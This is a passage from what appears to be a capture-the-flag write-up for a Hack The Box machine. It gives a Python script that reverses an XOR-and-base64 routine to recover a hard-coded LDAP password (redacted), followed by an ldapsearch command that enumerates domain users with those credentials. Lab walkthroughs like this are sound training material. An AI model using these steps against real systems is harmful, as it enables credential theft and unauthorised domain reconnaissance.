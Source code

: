 I've used Python to remake the decryption function. Here is the script:

```python
#!/usr/bin/python

import base64

# Edited
enc_password = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
key = "armando"

array = base64.b64decode(enc_password.encode())
key = key.encode()
result = bytearray()

for i in range(len(array)):
    result.append(array[i] ^ key[i % len(key)] ^ 223)

print(f"[*] Result: {result.decode()}")
```

Run the script to get the LDAP password.

```zsh
$ python getPassword.py
# Edited
[*] Result: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

## Exploitation

With LDAP credentials we are able to extract domain users info by using `ldapsearch` tool. ldapsearch is a tool to query ldap server with filters. We specify our filters with `Users` common name to get users info.

```zsh
ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX' -b "CN=Users,DC=support,DC=htb"
```
